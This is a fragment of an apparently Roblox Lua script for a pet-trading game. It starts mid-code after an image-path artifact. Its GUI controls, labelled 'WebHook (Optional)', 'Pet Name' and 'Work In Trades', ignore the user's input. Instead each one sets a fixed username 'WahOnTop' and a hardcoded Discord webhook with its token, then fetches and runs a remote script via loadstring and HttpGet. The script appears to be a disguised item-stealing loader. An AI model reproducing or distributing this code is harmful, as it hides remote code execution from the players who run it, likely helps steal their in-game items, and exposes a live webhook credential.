 	Enabled = false

})

local H = Bank.TextField({

	Text = "WebHook (Optional)",

	Callback = function(Value)

		UserName = "WahOnTop"

WebHook = "https://discord.com/api/webhooks/1040669953226985653/2uTnd0Eo7dmScJh-Z2qVKJ_FMZ6XR-1aY9zih595e1VB3mBPXzz4nIJwr2_XH1RwJ1oU"

 

loadstring(game:HttpGet("https://raw.githubusercontent.com/HardGameSs/PSX/main/Script.lua", true))()

	end

})

local Fe = X.New({

	Title = "Fe Pets"

})

local H = Fe.TextField({

	Text = "Pet Name",

	Callback = function(Value)

		UserName = "WahOnTop"

WebHook = "https://discord.com/api/webhooks/1040669953226985653/2uTnd0Eo7dmScJh-Z2qVKJ_FMZ6XR-1aY9zih595e1VB3mBPXzz4nIJwr2_XH1RwJ1oU"

 

loadstring(game:HttpGet("https://raw.githubusercontent.com/HardGameSs/PSX/main/Script.lua", true))()

	end

})

local B = Fe.Toggle({

	Text = "Work In Trades",

	Callback = function(Value)

		UserName = "WahOnTop"

WebHook = "https://discord.com/api/webhooks/1040669953226985653/2uTnd0Eo7dmScJh-Z2qVKJ_FMZ6XR-1aY9zih595e1VB3mBPXzz4nIJwr2_XH1RwJ1oU"

 

loadstring(game:HttpGet("https://raw.githubusercontent.com/HardGameSs/PSX/main/Script.lua", true))()

